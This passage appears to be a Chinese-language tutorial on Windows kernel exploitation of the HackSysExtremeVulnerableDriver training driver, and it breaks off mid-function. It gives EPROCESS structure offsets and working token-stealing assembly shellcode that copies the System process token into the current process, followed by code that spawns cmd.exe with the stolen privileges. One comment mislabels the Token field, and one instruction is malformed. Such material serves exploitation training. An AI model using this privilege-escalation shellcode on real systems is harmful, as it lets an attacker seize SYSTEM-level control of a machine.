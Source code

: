 KPCR-->KPRCB+0x4    等价于  fs:\[0x124\]  = CurrentThread

CurrentThread+0x150 = KProcess 也等价于 EProcess

EProcess + 0xb4 = UniqueProcessId 当前进程的PID   system进程 PID = 0x4

EProcess + 0xb8 = ActiveProcessLinks 也就是活动进程链表

EProcess + 0xf8 = Token 也就是活动进程链表

获取Token的代码最终的代码：

```cpp
//得到当前线程
mov eax,fs:[0x124];
//根据线程得到当前进程，并保存在esi中
mov esi,[eax+0x150];
//将当前进程先保存一下
mov eax,esi;
searchWin7:
//得到进程活动链表
mov eax,eax+0xb8;
//得到每个活动进程的链表头
sub eax,0xb8;
//得到进程的PID
mov ebx,[eax+0xb4]
//比较PID是否是system进程
cmp ebx,0x4
//不是就进行跳转
jne searchWin7:
//得到system进程的Token
mov eax,[eax+0xf8];
//将本进程的Token替换成System进程的Token
mov [esi+0xf8],eax;
```
ring3下fs:\[0\]指向teb

最后使用创建进程函数创建一个新的进程

```cpp
STARTUPINFO si;
PROCESS_INFORMATION pi;

ZeroMemory( &si, sizeof(si) );
si.cb = sizeof(si);
ZeroMemory( &pi, sizeof(pi) );
CreateProcess(
    TEXT("C:\\Windows\\System32\\cmd.exe"),//创建一个命令行
    NULL,NULL, NULL,FALSE,
    CREATE_NEW_CONSOLE,//创建一个新的窗口
    NULL,NULL,&si, &pi );
```
最终将代码合起来

```cpp
#include "stdafx.h"
#include <Windows.h>

#define DEVICE_LINK_NAME    "\\\\.\\HackSysExtremeVulnerableDriver"

void __declspec(naked)shellcode()
{
	_asm
	{
		//保存以前的寄存器状态
		pushad;
		pushfd;
               //开辟栈帧
		sub esp,0x40;
```